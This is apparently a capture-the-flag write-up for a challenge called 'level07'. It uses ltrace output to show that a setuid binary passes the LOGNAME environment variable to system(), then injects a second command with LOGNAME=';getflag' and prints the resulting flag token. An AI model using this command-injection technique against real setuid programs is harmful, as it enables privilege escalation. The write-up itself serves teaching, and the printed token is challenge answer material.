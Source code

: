 # level07 solution
Given setuid elf,  we can run it with ltrace to get the idea of what it does:

    getegid()                                                  = 2007
    geteuid()                                                  = 2007
    setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)        = 0
    setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)        = 0
    getenv("LOGNAME")                                          = "level07"
    asprintf(0xbffff724, 0x8048688, 0xbfffff52, 0xb7e5ee55, 0xb7fed280) = 18
    system("/bin/echo level07 "level07

It seems to get string from environment variable LOGNAME and echo it via system run. We can modify this variable to inject our code:
    
    LOGNAME=";getflag" ./level07

Resulting output:

    Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
